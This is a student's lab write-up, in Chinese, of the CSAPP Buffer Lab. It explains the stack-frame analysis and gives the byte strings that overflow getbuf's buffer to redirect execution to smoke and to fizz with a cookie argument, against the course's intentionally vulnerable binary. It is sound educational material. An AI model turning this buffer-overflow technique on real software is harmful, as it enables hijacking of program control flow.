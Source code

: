 # CSAPP：第三次实验  Buffer Lab

## 一、实验说明



1. `bufferlab`中有三个文件，`bufbomb`、`makecookie`、`sendstring`，都是可执行文件

2. 生成自己的`cookie`：

   ```shell
   ./makecookie SA21225298
   -0x5e2f1f83
   ```
   
3. 构造攻击字符串：

   ```shell
   ./sendstring < exploit.txt > exploit-raw.txt
   ```

4. 反汇编`bufbomb`：

   ```shell
   objdump -d bufbomb > bufbome.asm
   ```

5. 字符串输入：

   ```shell
   ./bufbomb -t SA21225298 < exploit-raw.txt
   ```



![image-20220126163606635](./attacklab.assets/image-20220126163606635.png)

![image-20220126163616869](./attacklab.assets/image-20220126163616869.png)



## 二、实验内容



### 2.1  Level 0 ： Candle

​		![image-20220126165131323](./attacklab.assets/image-20220126165131323.png)

​		![image-20220126165147463](./attacklab.assets/image-20220126165147463.png)

​		首先在汇编文件中找到`getbuf`函数：

```assembly
08048fe0 <getbuf>:
 8048fe0:	55                   	push   %ebp
 8048fe1:	89 e5                	mov    %esp,%ebp
 8048fe3:	83 ec 18             	sub    $0x18,%esp
 8048fe6:	8d 45 f4             	lea    -0xc(%ebp),%eax
 8048fe9:	89 04 24             	mov    %eax,(%esp)
 8048fec:	e8 6f fe ff ff       	call   8048e60 <Gets>
 8048ff1:	b8 01 00 00 00       	mov    $0x1,%eax
 8048ff6:	c9                   	leave  
 8048ff7:	c3                   	ret    
 8048ff8:	90                   	nop
 8048ff9:	8d b4 26 00 00 00 00 	lea    0x0(%esi,%eiz,1),%esi
```

​		通常在P过程调用Q过程时，程序的栈帧结构如下图所示：

![image-20220126164427961](./attacklab.assets/image-20220126164427961.png)

​		于是结合汇编代码可以分析出`getbuf`函数在调用`Gets`函数前的栈帧结构为：

![image-20220126164451536](./attacklab.assets/image-20220126164451536.png)

​		为了覆盖被存在返回地址上的值(对于32位机器是4B)，我们需要读入超过系统默认12 Bytes大小的`string`。由于保存的`ebp`占据了4B 所以当我们的`input string`为20B时，最后4B 刚好覆盖返回地址。为了使`getbuf`执行结束后跳转到`smoke`函数，我们需要知道`smoke`函数的地址，查找反汇编文件发现其地址为`0x08048e20`。

```assembly
08048e20 <smoke>:
 8048e20:	55                   	push   %ebp
 8048e21:	89 e5                	mov    %esp,%ebp
 8048e23:	83 ec 08             	sub    $0x8,%esp
 8048e26:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e2d:	e8 6e fb ff ff       	call   80489a0 <entry_check>
 8048e32:	c7 04 24 47 9a 04 08 	movl   $0x8049a47,(%esp)
 8048e39:	e8 d6 f8 ff ff       	call   8048714 <puts@plt>
 8048e3e:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e45:	e8 96 fc ff ff       	call   8048ae0 <validate>
 8048e4a:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e51:	e8 4e f9 ff ff       	call   80487a4 <exit@plt>
 8048e56:	8d 76 00             	lea    0x0(%esi),%esi
 8048e59:	8d bc 27 00 00 00 00 	lea    0x0(%edi,%eiz,1),%edi
```

​		因此，攻击字符串长度为20B，且最后4B需为`0x08048e20`。由于我们在输入文件下写入的都是字符，而计算机系统中字符以`ASCII`码表示 /存储，因此为了构造所需要的地址或其他数据，我们采用代码包给出的 sendstring工具来将我们写入的`ASCII`码字符转换成所对应的字符。

​		首先将用于攻击的目标数据写入一个`txt`文件中并命名为`exploit.txt`（需写为用空格分隔的ASCII码），这
里目标数据如下(前16字节随意写)：`01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 20 8e 04 08`。要
特别注意，最后的四字节需写为`20 8e 04 08`而不是`08 04 8e 20`，因为数据在当前机器内存中是按小端
方式存储的。

​		最后运行`bufbomb`即可看到攻击结果：

![image-20220126164850085](./attacklab.assets/image-20220126164850085.png)

​		这里发送邮件的错误可以忽略，这个功能是供`CMU`的学生使用的。



### 2.2 Level 1：Sparkler

![image-20220126165159724](./attacklab.assets/image-20220126165159724.png)

​		同样在汇编代码中找到`fizz`函数：

```assembly
08048dc0 <fizz>:
 8048dc0:	55                   	push   %ebp
 8048dc1:	89 e5                	mov    %esp,%ebp
 8048dc3:	53                   	push   %ebx
 8048dc4:	83 ec 14             	sub    $0x14,%esp
 8048dc7:	8b 5d 08             	mov    0x8(%ebp),%ebx
 8048dca:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048dd1:	e8 ca fb ff ff       	call   80489a0 <entry_check>
 8048dd6:	3b 1d cc a1 04 08    	cmp    0x804a1cc,%ebx
 8048ddc:	74 22                	je     8048e00 <fizz+0x40>
 8048dde:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048de2:	c7 04 24 98 98 04 08 	movl   $0x8049898,(%esp)
 8048de9:	e8 76 f9 ff ff       	call   8048764 <printf@plt>
 8048dee:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048df5:	e8 aa f9 ff ff       	call   80487a4 <exit@plt>
 8048dfa:	8d b6 00 00 00 00    	lea    0x0(%esi),%esi
 8048e00:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048e04:	c7 04 24 29 9a 04 08 	movl   $0x8049a29,(%esp)
 8048e0b:	e8 54 f9 ff ff       	call   8048764 <printf@plt>
 8048e10:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048e17:	e8 c4 fc ff ff       	call   8048ae0 <validate>
 8048e1c:	eb d0                	jmp    8048dee <fizz+0x2e>
 8048e1e:	89 f6                	mov    %esi,%esi
```

​		根据`level0`中的分析可知，为了从`getbuf`函数“返回”到该函数，我们首先需要构造如下字符串来覆盖`getbuf`函数的返回地址（前16B随意写）：`01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 c0 8d 0408`，但除此之外，本题还需要给出传入`fizz`函数的参数。在`fizz`汇编代码中可以看到`cmp`指令是将存放`cookie`的变量与`%ebp+0x8`处的值相比，所以正常调用的情况下参数位置就是`%ebp+0x8`处，但是注意，我们的输入操作是在`getbuf`函数中做的，因此必须确定该位置相对于`getbuf`函数的`ebp`的距离。做如下调用过程分析：
首先，我们调用`getbuf`函数：

![image-20220126165352410](./attacklab.assets/image-20220126165352410.png)

​		当`getbuf`函数执行即将结束时，先执行`leave`指令：将`esp`指向`ebp`位置，然后`pop`备份的旧`ebp`到`ebp`指针中：

![image-20220126165509035](./attacklab.assets/image-20220126165509035.png)

​		然后执行`ret`指令，将栈顶的返回地址弹出到EIP，然后按照EIP此时指示的指令地址继续执行程序。此时栈帧结构为：

![image-20220126165546061](./attacklab.assets/image-20220126165546061.png)

​		由于返回地址被我们覆盖为`fizz`的地址，因此此时`eip`指示执行的是`fizz`函数。与所有函数调用一样，在一开始，`fizz`函数会执行`push, mov`指令，压入旧`ebp`并将`ebp`置为自己的栈帧位置：

![image-20220126165632550](./attacklab.assets/image-20220126165632550.png)

​		可以看到，这里栈帧表现出来相当于主函数在没有压入返回地址的情况下调用了`fizz`函数（实际是不可能的，只是因为受到了我们的攻击），所以在这种情况下`fizz`中的`ebp+8`的位置应该对应于`getbuf`函数执行时的`ebp+12`的位置。

​		解决了在覆盖位置问题之后，就只剩用什么去覆盖的问题了。根据实验要求，我们使用`makecookie`生成覆盖内容：

![image-20220126165759927](./attacklab.assets/image-20220126165759927.png)

​		于是最终覆盖的数据为：`01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 c0 8d 04 08 00 00 00 00 83 1f 2f 5e `

​		最后执行`bufbomb`程序：

![image-20220126165900255](./attacklab.assets/image-20220126165900255.png)

​		攻击成功！



## 三、实验总结

​		这次`lab`比之前的简单多了，也更有了`hacker`的感觉。:grin:

